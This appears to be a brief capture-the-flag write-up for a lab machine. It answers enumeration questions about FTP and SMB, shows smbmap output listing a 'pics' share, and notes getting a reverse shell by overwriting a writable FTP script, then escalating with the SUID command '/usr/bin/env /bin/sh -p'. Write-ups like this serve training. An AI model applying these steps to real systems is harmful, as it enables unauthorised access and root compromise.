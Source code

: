 
Enumerate the machine.  How many ports are open?

4
What service is running on port 21?

ftp
What service is running on ports 139 and 445?

smb
There's a share on the user's computer.  What's it called?


 smbmap -H 10.10.24.36 -p 139
[+] Guest session       IP: 10.10.24.36:445     Name: 10.10.24.36                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        pics                                                    READ ONLY       My SMB Share Directory for Pics
        IPC$                                                    NO ACCESS       IPC Service (anonymous server (Samba, Ubuntu))

Answer format: ****
user.txt

Answer format: ********************************
root.txt

Answer format: ********************************


in FTP there was a scripts folder, you could override the script, reverse from there, just bash read line from rev shells. 
then ran linpeas, from server on attack machine, found env with suid, gtfobins ftw

/usr/bin/env /bin/sh -p